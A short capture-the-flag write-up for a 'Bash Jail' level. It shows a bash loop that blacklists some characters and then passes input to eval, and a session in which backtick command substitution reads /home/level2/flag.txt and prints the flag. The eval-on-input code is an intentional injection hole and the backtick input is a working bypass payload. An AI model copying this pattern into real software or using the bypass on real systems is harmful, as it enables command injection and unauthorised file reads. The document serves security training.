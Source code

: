 # Bash Jail 2


BASH Jail Level 2:
Current user is uid=1001(level2) gid=1001(level2) groups=1001(level2)

Flag is located at /home/level2/flag.txt

```bash
Challenge bash code:
-----------------------------

function check_space {
    if [[ $1 == *[bdks';''&'' ']* ]]
    then
            return 0
    fi

    return 1
}

while :
do
    echo "Your input:"
    read input
    if check_space "$input"
    then
        echo -e '\033[0;31mRestricted characters has been used\033[0m'
    else
        output="echo Your command is: $input"
        eval $output
    fi
done

-----------------------------

```

```bash
Your input:
lol
Your command is: lol
Your input:
lol  2
Restricted characters has been used
Your input:
</home/level2/flag.txt
Your command is:
Your input:
`ls
Restricted characters has been used
`whoami`
Your command is: level2
Your input:
`</home/level2/flag.txt`
Your command is: FLAG-a78i8TFD60z3825292rJ9JK12gIyVI5P
```
